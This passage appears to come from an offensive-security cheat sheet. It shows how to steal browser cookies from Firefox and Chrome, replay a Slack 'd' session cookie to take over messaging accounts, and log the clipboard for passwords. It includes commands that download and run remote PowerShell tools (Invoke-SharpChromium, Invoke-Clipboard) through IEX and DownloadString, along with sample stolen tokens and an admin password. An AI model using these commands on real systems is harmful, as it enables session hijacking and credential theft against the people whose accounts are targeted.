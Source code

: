 ## 🍪 Browser Cookie Extraction

### Firefox Cookie Extraction
```powershell
# Copy Firefox cookies database:
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .

# Extract specific cookies (Linux):
python3 cookieextractor.py --dbpath "/home/user/cookies.sqlite" --host slack --cookie d

# Example Slack cookie:
d=xoxd-CJRafjAvR3UcF%2FXpCDOu6xEUVa3romzdAPiVoaqDHZW5A9oOpiHF0G749yFOSC...
```

### Chrome Cookie Extraction
```powershell
# Chrome cookies are DPAPI encrypted
# Copy cookies to expected SharpChromium location:
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"

# Use Invoke-SharpChromium for decryption:
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
Invoke-SharpChromium -Command "cookies slack.com"

# Extract 'd' cookie value from JSON output
```

### Cookie Abuse for IM Access
```cmd
# Using Cookie-Editor browser extension:
1. Navigate to target website (slack.com)
2. Open Cookie-Editor extension
3. Modify 'd' cookie with extracted value
4. Save cookie changes
5. Refresh page = authenticated access

# Target applications:
- Slack (cookie: d)
- Microsoft Teams
- Discord
- Other web-based IM clients
```

## 📋 Clipboard Monitoring

### PowerShell Clipboard Logger
```powershell
# Monitor clipboard for credentials:
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
Invoke-ClipboardLogger

# Example captured data:
https://portal.azure.com
Administrator@something.com
Sup9rC0mpl2xPa$$ws0921lk
```
